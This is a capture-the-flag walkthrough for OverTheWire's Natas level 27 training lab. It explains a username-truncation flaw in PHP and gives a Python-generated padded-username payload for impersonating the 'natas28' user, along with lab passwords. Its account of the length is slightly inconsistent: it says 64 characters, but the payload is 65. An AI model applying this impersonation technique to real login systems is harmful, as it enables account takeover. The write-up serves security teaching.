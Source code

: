 # Natas CTF Solutions  

## Natas Level 27  

### 🌐 **Challenge Description**  
Natas teaches the basics of server-side web security. Each level consists of a website located at:  
👉 `http://natasX.natas.labs.overthewire.org` (where **X** is the level number).  

---

### 🎯 **Goal**  
- Exploit a **string truncation vulnerability** to bypass the username check and retrieve the password.  

---

## 🚀 **Solution**  

### **Step 1: Open the URL**  
Visit:  
```  
http://natas27.natas.labs.overthewire.org  
```  

---

### **Step 2: Enter Login Credentials**  
- **Username:** `natas27`  
- **Password:** Use the password from Natas Level 26:  
```
u3RRffXjysjgwFU6b9xa23i6prmUsYne
```

![Home_Page](https://github.com/user-attachments/assets/53038030-8dcc-4ec1-87e9-9e02587b4946)

---

### **Step 3: Analyze the Source Code**  
Key part of the code:  
```php
if(strlen($name) > 64){
    $name = substr($name, 0, 64);
}
```

### **Understanding the Vulnerability**  
- The code truncates the username if it's longer than **64 characters**.  
- We can take advantage of this by creating a username that is **exactly 64 characters** long, where the first part matches `natas28` and the last character is different.  

![image](https://github.com/user-attachments/assets/e45e86a7-fec1-4cd0-abe3-4bc3ea98e1e1)
![image](https://github.com/user-attachments/assets/6e7a834d-de44-4e93-b65f-771519e92243)

---

### **Step 4: Generate the Payload**  
Generate a payload in Python:  
```python
print("natas28" + " " * 57 + "z")
```

✅ Output:  
```
natas28                                                         z
```

---

### **Step 5: Send the Payload**  
1. Open **Burp Suite** or the browser console.  
2. Send the following payload as the username:  
```
natas28                                                         z
```
3. The server will truncate the username to 64 characters, which will match `natas28`.  

---

### **Step 6: Result**  
- The server will treat the username as `natas28` and return the password for the next level.  

---

### **Step 7: Output**  
If successful, the output will reveal the password for the next level:  
```  
The password for natas28 is: 1JNwQM1Oi6J6j1k49Xyw7ZN6pXMQInVj  
```

![Password](https://github.com/user-attachments/assets/a84e1119-6ae2-42a6-a09e-8cd31b616bc3)

---

### **✅ Password for Natas Level 28**  
```
1JNwQM1Oi6J6j1k49Xyw7ZN6pXMQInVj
```

---

## 💡 **Lessons Learned**  
✔️ **String Truncation:** Long strings can be truncated, leading to unintended behavior.  
✔️ **SQL Injection:** Truncated values might match unintended records in the database.  
✔️ **Username Collision:** By carefully crafting long input, you can impersonate another user.  

---

## 🖼️ **Screenshots**  
| Step | Screenshot |  
|------|------------|  
| Step 3 – Source Code | ![image](https://github.com/user-attachments/assets/e45e86a7-fec1-4cd0-abe3-4bc3ea98e1e1) ![image](https://github.com/user-attachments/assets/6e7a834d-de44-4e93-b65f-771519e92243) |  
| Step 6 – Found Password | ![Password](https://github.com/user-attachments/assets/a84e1119-6ae2-42a6-a09e-8cd31b616bc3) |  

---

## 🎯 **Next Level**  
Use the password to access **Natas Level 28**:  
👉 [http://natas28.natas.labs.overthewire.org](http://natas28.natas.labs.overthewire.org)  

---
